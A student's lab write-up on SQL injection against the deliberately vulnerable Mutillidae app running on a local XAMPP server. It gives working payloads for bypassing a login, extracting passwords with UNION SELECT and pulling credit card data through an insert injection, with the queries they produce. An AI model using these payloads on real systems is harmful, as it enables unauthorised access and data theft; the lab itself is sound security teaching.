




FIT5003 SQL Injection
Week 9 Lab - SQL Injection
Introduction
OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
Reference: Week 9 Lab pdf
Environment Setup
Program Requirements
OS: 64-bit Ubuntu VM
Server: by XAMPP http://www.apachefriends.org/index.html
Vulnerable Web App: Mutillidae https://github.com/webpwnized/mutillidae
copy mutillidae directory (and all subdirectries) into /opt/lampp/htdocs:
1
sudo cp -R ./mutillidae /opt/lampp/htdocs/
Helpful setting:
1
sudo nano /opt/lampp/htdocs/mutillidae/includes/database-config.inc
In the editor, change the configuration as follows:
1
2
3
4
5
6
define(’DB_HOST’, ’127.0.0.1’);
define(’DB_USERNAME’, ’root’);
define(’DB_PASSWORD’, ’’);
define(’DB_NAME’, ’mutillidae’);
Web analysis tool: Burpsuite https://portswigger.net/burp/communitydownload
Setup Web Server
XAMPP start:
1 | sudo /opt/lampp/lampp start |
And open Burpsuite to catch the data.
- set the IP as 127.0.0.1 and the port as 8080
Open http://127.0.0.1/mutillidae/

SQL Injection
Bypass Authentication
Practice version: ‘OWASP 2017’ –> ‘A1 – Injection (SQL)’ –> ‘SQLi – Bypass Authentication’ –> ‘Login’
Mission: Bypass authentication and login successfully.
Answer code:
1 | ' OR 1=1 -- |
Result:

Equivalent query:
1 | SELECT * FROM users WHERE username = '' OR 1=1 -- AND password = '' |
Note
There must be a space after –. If there is not, the query will become to:
1 | SELECT * FROM users WHERE username = '' OR 1=1 --AND password = '' |
This will cause a syntax error and the exception will be caught.
Extract Data
Practice version: ‘OWASP 2017’ –> ‘A1 – Injection (SQL)’ –> ‘SQLi – Extract Data’ –> ‘User Info’
Task 1 & 2: Extract user info
Mission: Display users’ information
Answer code:
1 | John' -- |
Result:

Equivalent query:
1 | SELECT * FROM users WHERE username = 'John' -- AND password = '' |
Note
You can also use the code in Bypass Authentication. The result will be all the users’ information.
Task 3: Other data
Answer code:
1 | John' UNION SELECT NULL, password, NULL FROM accounts -- |
Note:
This is an unsolved task. I’ll go back to this question once I find how to hack it.
Insert Data
Practice version: ‘OWASP 2017’ –> ‘A1 – Injection (SQL)’ –> ‘SQLi – Insert Injection’ –> ‘Register’
Mission: Use ‘Register’ page to implement the malicious string and display users’ information on the ‘User info’ page.
Answer code:
1 | Fish','42',(select ccnumber from credit_cards where ccid="1")) -- // For credit card number |
1 | Fish','42',(select expiration from credit_cards where ccid="1")) -- // For expiration |
Result:

Equivalent query:
1 | INSERT INTO accounts(username, password, mysignature) VALUES('Fish','42',(select expiration from credit_cards where ccid="1")) -- ') |
Automated SQL injections
AKA: how to find the vulnerability by using Python code
1 | import requests |